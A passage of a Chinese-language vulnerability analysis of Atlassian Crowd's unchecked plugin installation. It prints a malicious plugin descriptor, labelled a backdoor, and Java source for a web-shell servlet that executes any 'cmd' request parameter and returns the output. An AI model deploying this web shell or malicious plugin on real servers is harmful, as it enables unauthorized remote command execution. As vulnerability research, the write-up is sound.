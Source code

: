 ```
}
res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Missing plugin file”);
}
```

分析可知，如tmp变量不为空，则开始安装插件，且安装成功返回响应信息 “Installed plugin” +“具体路径”，安装失败返回响应信息 ”Unable to install plugin:”；如 tmp变量为空，则返回响应信息 “Missing plugin file”。

至此，明确Atlassian Crowd的插件管理流程后可知，并不存在明确的插件功能检测机制，因此插件易被利用。

 

## 漏洞利用

首先，编写一个恶意插件，其 “atlassian-plugin.xml” 信息如下。

```
<atlassian-plugin key="com.cdl.shell.exp" name="Atlassian Manager" plugins-version="2" class="com.cdl.shell.exp">
<plugin-info>
<param name="atlassian-data-center-compatible">true</param>
<description>Atlassian Management plugin</description>
<version>1.0.0</version>
</plugin-info>

<servlet name="exploit" key="exploit" class="com.cdl.shell.exp">
<url-pattern>/exp</url-pattern>
<description>backdoor at /plugins/servlet/cdl</description>
</servlet>

</atlassian-plugin>
```

分析可知，插件上传成功后，用户只需访问 /exp即可使用恶意插件servlet类com.cdl.shell.exp的功能。

其次，分析com.cdl.shell.exp源码，如下：

```
public class exp extends javax.servlet.http.HttpServlet {

    public void doGet(HttpServletRequest req, HttpServletResponse res) {
        try {
            // 接收cmd参数信息
            String cmd = String.valueOf(req.getParameter(“cmd”));
            String output = ””;
            try {
                if (!cmd.equals(“”)) {
                    // 执行cmd参数命令
                    Process p = Runtime.getRuntime().exec(cmd);
                    InputStream out = p.getInputStream();
                    InputStream err = p.getErrorStream();
                    int c = ’\0’;
                    while ((c = out.read()) != -1) {
                        res.getWriter().write((char) c);
                    }
                }
            } catch(Exception ex) {
                output += ”\n” + ex.toString();
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```
